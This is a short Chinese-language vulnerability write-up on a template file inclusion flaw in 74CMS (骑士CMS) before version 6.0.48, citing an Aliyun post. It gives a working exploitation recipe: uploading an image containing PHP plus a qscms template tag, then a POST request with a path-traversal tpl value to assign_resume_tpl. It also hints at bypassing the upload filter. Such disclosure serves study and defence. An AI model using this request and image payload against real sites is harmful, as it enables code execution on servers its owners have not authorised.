





## 影响范围

```http
骑士CMS < 6.0.48
```

## 漏洞利用

首先在前台注册一个普通用户，然后更新简历：

完成简历更新后，上传照片：

在上传图片马后，会生成图片地址：

复制路径，通过 a 方法调用assign_resume_tpl函数，再通过 POST 的方式提交该路径，即可包含成功

```
http://192.168.159.208/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=../../../../var/www/html/data/upload/resume_img/2011/13/5fae95e469e05.jpg
```
如下图所示：


值得一提的是，通过上面的分析我们可以知道，在解析模板的时候，不是解析原生的 PHP 代码，因此如果图片马是纯 PHP 代码是无法利用成功的，必须要包括骑士 CMS 模板文件的标签，我们可以随便打开一个原有模板，然后复制一句话即可，如：/Application/Home/View/tpl_company/default/com_jobs_list.html

```
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```


因此最终的图片马所要包含的内容应该是：

```
<?php phpinfo(); ?>
<qscms:company_show 列表名="info" 企业id="$_GET['id']"/>
```
另外一点，骑士 CMS 对于图片上传是有过滤的，所以需要绕过技巧，具体可以自行研究，当然你也可以考虑上传 docx 或者其他类型的文件，对于包含的结果是没有影响的

## 参考链接

[@panda](https://xz.aliyun.com/t/8520)